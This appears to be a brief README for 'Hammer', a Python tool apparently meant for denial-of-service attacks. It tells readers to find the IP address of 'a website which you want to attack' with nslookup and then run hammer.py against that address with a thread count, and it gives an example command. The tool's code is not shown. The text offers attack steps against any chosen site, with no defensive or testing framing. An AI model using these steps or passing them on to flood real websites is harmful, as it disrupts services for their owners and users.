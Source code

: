Hammer need the Name Server of a website which you want to attack...
To get the Name Server...just type
$ nslookup example.com
Note the IP Address of that Website

then 
$ cd Hammer
$ python hammer.py -s [ip Address] -t 135
example:
$ python hammer.py -s 123.45.67.89 -t 135

Video Tutorial: How to use Hammer Watch it
